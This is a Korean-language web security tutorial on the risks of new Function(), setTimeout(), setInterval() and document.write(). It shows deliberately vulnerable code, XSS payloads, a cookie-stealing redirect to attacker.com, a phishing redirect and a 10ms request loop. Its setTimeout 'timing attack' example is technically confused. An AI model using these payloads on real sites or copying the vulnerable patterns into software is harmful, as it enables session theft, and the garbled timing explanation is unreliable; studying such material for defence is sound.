 ## ☪️ 동적 코드 실행 함수 Dynamic Code Execution Functions [new Function(), setTimeout(), setInterval(), document.write()]

### **1. `new Function()`을 통한 코드 인젝션 공격**

#### **개념**:

`new Function()`은 **동적으로 JavaScript 코드를 실행**하는 강력한 함수입니다. 이 함수는 문자열을 받아서 실행 가능한 코드로 변환해 실행하는 방식입니다. 그런데 이 방식이 문제를 일으킬 수 있습니다. **외부 입력을 코드로 실행**하는 경우 **코드 인젝션** 공격에 취약해집니다.

#### **웹 해킹 관점에서의 위험**:

* **코드 인젝션 (Code Injection)**: 외부 사용자가 입력한 값을 **JavaScript 코드로 실행**하는 방식은 매우 위험합니다. 악성 코드가 삽입될 수 있기 때문입니다. 공격자는 이를 악용하여 **쿠키 탈취**, **세션 하이재킹**, **크로스 사이트 스크립팅(XSS)** 공격을 수행할 수 있습니다.

#### **공격 예시**:

**XSS (Cross-Site Scripting) 공격**

* 예를 들어, 웹 애플리케이션이 사용자로부터 **댓글**을 입력받고 이를 **동적으로 출력**하는 기능을 제공한다고 합시다. 사용자가 입력한 댓글을 `new Function()`을 통해 처리하는 코드가 있다고 가정해보겠습니다.

  **취약한 코드**:

  ```javascript
  let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
  let dynamicComment = new Function(userComment);  // 입력된 댓글을 코드로 실행
  dynamicComment();  // 사용자 입력을 실행
  ```

  이 코드에서, 만약 사용자가 **악성 스크립트**를 입력한다면, 그 코드는 그대로 실행됩니다. 예를 들어, 사용자가 입력란에 `alert(document.cookie)`라는 코드를 삽입했다고 가정해봅시다. 이 경우, **사용자의 쿠키**가 알림창으로 출력되며 공격자는 이를 **탈취**할 수 있습니다.

  **악성 코드 예시**:

  ```javascript
  alert(document.cookie);  // 쿠키 탈취
  ```

  이 코드는 공격자가 웹 애플리케이션에서 **사용자의 쿠키**를 알아낼 수 있게 합니다. 이를 통해 공격자는 **세션 하이재킹**을 시도하거나, 다른 민감한 정보를 탈취할 수 있습니다.

---

### **2. `setTimeout()`을 통한 타이밍 공격**

#### **개념**:

`setTimeout()`은 **특정 시간 후에 한 번 실행되는** 비동기 함수입니다. 주로 지연된 실행을 위해 사용되며, 설정된 시간이 지나면 **콜백 함수**가 실행됩니다. 이 함수는 **비동기적**으로 동작하기 때문에 주어진 시간에 맞춰서 **타이밍을 조절**할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **타이밍 공격 (Timing Attacks)**: 공격자는 `setTimeout()`을 활용하여 **서버의 응답 시간**을 분석하거나 **사용자의 인증 정보를 추측**할 수 있습니다. 특히 인증 시스템에서는 **성공적인 로그인**과 **실패한 로그인**의 응답 시간이 다를 수 있기 때문에 이를 악용하여 **패스워드**나 **사용자 이름**을 유추할 수 있습니다.

#### **공격 예시**:

* 예를 들어, 로그인 페이지에서 `setTimeout()`을 사용하여 응답을 지연시키는 방식이 있을 수 있습니다. 공격자는 로그인 성공과 실패의 시간을 분석해, **비밀번호 추측**이나 **사용자 정보**를 유추할 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setTimeout(() => {
    // 로그인 성공 시 수행되는 동작
    alert('로그인 성공');
  }, 500);  // 500ms 후에 실행
  ```

  이 코드는 로그인 성공 시 **500ms** 동안 지연되는데, 공격자는 여러 번 로그인 시도를 통해 **응답 시간**의 차이를 분석하고 로그인 성공 여부를 알아낼 수 있습니다.


---

### **3. `setInterval()`을 통한 서비스 거부(DoS) 공격**

#### **개념**:

`setInterval()`은 주어진 시간 간격으로 **지속적으로 함수를 반복 실행**하는 함수입니다. 주기적으로 특정 작업을 수행할 때 유용하지만, 이를 잘못 사용하면 **서버 자원 소모**나 **서비스 거부(DoS) 공격**을 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **서비스 거부(DoS)**: 공격자는 `setInterval()`을 통해 서버에 **과도한 요청**을 반복적으로 보내거나, 클라이언트에서 불필요하게 자원을 소모시킬 수 있습니다. 이렇게 하면 서버가 과부하에 걸리거나 클라이언트 측에서 **리소스를 낭비**하게 되어 **서비스 거부 상태**에 빠질 수 있습니다.

#### **공격 예시**:

* 예를 들어, 클라이언트가 `setInterval()`을 사용하여 서버에 **주기적으로** 요청을 보내게 된다면, 서버는 과도한 요청을 처리해야 하므로 자원이 고갈되어 **서비스 거부(DoS)** 상태에 빠질 수 있습니다.

  **취약한 코드 예시**:

  ```javascript
  setInterval(() => {
    fetch('https://example.com/api');  // 서버에 계속해서 요청 보내기
  }, 10);  // 10ms마다 요청을 보냄
  ```

  이 코드는 **10ms마다** 서버에 계속 요청을 보내게 되며, 서버는 **과도한 요청 처리**로 인해 **리소스를 소모**하게 됩니다. 결국 서버는 정상적인 요청을 처리하지 못하고 **서비스가 마비**될 수 있습니다.

#### **취약점 해결**:

* **요청 간격을 제한**하고, 서버에 **불필요한 반복 요청**이 발생하지 않도록 주의해야 합니다. 또한 **API 요청에 대한 제한**(rate limiting)을 설정하여, 클라이언트에서 과도한 요청을 보내지 못하도록 방지해야 합니다.

---

### **4. document.write()`을 통한 DOM 공격**

#### **개념**:

`document.write()`는 **Java스크립트로 동적으로 HTML 콘텐츠를 삽입**할 수 있는 함수입니다. 이 함수는 주로 **페이지 로딩 중**에 콘텐츠를 삽입하거나 수정하는 데 사용됩니다. 그러나 **동적으로 HTML을 삽입**할 수 있는 강력한 기능을 제공하지만, 그만큼 **보안상 심각한 취약점을 초래할 수 있습니다**. 주로 **XSS (Cross-Site Scripting)** 공격이나 **페이지 위조** 같은 문제를 유발할 수 있습니다.

#### **웹 해킹 관점에서의 위험**:

* **페이지 내용 덮어쓰기**:
  `document.write()`는 페이지 로딩이 완료된 후에는 **문서의 기존 콘텐츠를 덮어쓸** 수 있습니다. 만약 사용자 입력이 포함되어 있다면, **기존 콘텐츠가 모두 삭제**되고 새로운 콘텐츠로 바뀌게 됩니다. 이로 인해 **사용자 경험**에 심각한 영향을 미칠 수 있습니다.

* **스크립트 삽입**:
  `document.write()`는 **HTML 요소를 삽입**하기 위해 사용되며, 사용자가 입력한 값이 HTML 코드로 삽입되는 방식입니다. 이로 인해 **HTML 태그나 스크립트**가 삽입되면, 악성 코드가 실행될 수 있습니다.

#### **공격 예시**:

웹 애플리케이션에서 **사용자 댓글**을 입력받아 페이지에 동적으로 출력하는 기능을 제공한다고 합시다. 이때 \*\*`document.write()`\*\*로 사용자의 댓글을 페이지에 삽입하는 방식을 사용하고 있다고 가정합니다.

```javascript
let userComment = document.getElementById("commentInput").value;  // 사용자 댓글 입력 받기
document.write(userComment);  // 입력된 값을 그대로 페이지에 삽입
```

#### **악성 입력**

악의적인 사용자가 `document.write()`의 입력 필드에 JavaScript 코드를 삽입할 수 있다면, 이는 **XSS 공격**으로 이어질 수 있습니다. 예를 들어, 공격자가 다음과 같이 입력한다고 가정해봅시다:

```html
<script>alert('XSS Attack!');</script>
```

이 코드가 `document.write()`에 의해 실행되면, 웹 페이지에 **알림창이 뜨게 되며**, 이는 공격자가 **악성 스크립트를 실행**시키는 방법입니다.

#### **결과**

* **쿠키 탈취**: 공격자는 \*\*`document.cookie`\*\*를 이용해 사용자의 **세션 쿠키**를 탈취할 수 있습니다.

  ```javascript
  <script>document.location='https://attacker.com?cookie=' + document.cookie;</script>
  ```

  위와 같은 스크립트가 삽입되면, 사용자의 쿠키가 공격자에게 전송되어 세션 하이재킹 공격에 사용될 수 있습니다.

* **피싱 공격**: 공격자는 **가짜 로그인 페이지**를 삽입해 사용자가 로그인 정보를 입력하게 유도할 수 있습니다.

  ```html
  <script>document.location="https://fake-login.com"</script>
  ```

  이 스크립트는 사용자를 **피싱 사이트**로 리디렉션시켜 **사용자 정보를 탈취**할 수 있습니다.
